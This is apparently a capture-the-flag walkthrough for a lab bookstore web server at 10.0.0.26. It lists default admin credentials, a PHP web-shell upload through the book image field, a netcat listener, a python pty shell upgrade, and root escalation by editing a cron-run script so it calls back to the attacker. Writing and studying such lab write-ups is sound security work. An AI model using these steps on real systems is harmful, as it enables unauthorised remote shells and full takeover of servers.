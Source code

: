 ip: 10.0.0.26

## First flag

```txt
http://10.0.0.26/database/user.txt
```

## Second flag

- make login at [admin page](http://10.0.0.26/admin.php)

  - user: admin
  - pass: admin

- add new book at [this page](http://10.0.0.26/admin_add.php)
  - isbn: shell
  - title: shell title
  - author: shell author
  - image: put `./shell.php` using current vpn ip
  - description: empty
  - price: 0
  - publisher: attacker

- listen for connection using nc
```bash
nc -nlvp 8080
```
- open [attack endpoint](http://10.0.0.26/book.php?bookisbn=shell)

- `export TERM=xterm`
- `python -c 'import pty;pty.spawn("/bin/bash");`
- vim /root/root.txt
  - ESC
  - ENTER
  - ESC
  - ENTER

boooom! you get all flags

you can get root access by editing `/opt/tasks.sh` to your ip and port using vim.basic
listen for connection using `nc` on your machine and boom, you are root
